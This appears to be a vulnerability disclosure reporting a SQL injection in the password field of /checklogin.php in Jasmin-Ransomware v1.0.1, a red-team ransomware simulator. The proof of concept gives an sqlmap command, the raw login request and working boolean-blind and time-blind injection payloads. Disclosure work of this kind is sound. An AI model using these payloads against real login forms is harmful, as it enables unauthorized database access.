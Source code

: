 # SQLi vulnerability in Jasmin-Ransomware v1.0.1 of file /checklogin.php with param password

**vender**:

- Jasmin-Ransomware

**SoftLink**:

- [codesiddhant/Jasmin-Ransomware: Jasmin Ransomware is an advanced red team tool (WannaCry Clone) used for simulating real ransomware attacks. Jasmin helps security researchers to overcome the risk of external attacks.](https://github.com/codesiddhant/Jasmin-Ransomware)

**Vulnerable File**

- /checklogin.php

**Version**

- V1.0.1

### POC

```bash
sqlmap -r sqli.txt -p password--technique BT --batch
```



```http
POST /checklogin.php HTTP/1.1
Host: www.jasmin.top
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://www.jasmin.top/login.php
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=gqgdlhsu3r6nag12j87cfiq3m6
Priority: u=0
Origin: http://www.jasmin.top
Content-Length: 47

username=siddhant&password=123456&service=login
```



```
---
Parameter: password (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=siddhant&password=123456' AND 9974=9974 AND 'WbgG'='WbgG&service=login

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=siddhant&password=123456' AND (SELECT 7995 FROM (SELECT(SLEEP(5)))KTsc) AND 'vDHA'='vDHA&service=login
---
```



![image-20250531041335006](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505310413106.png)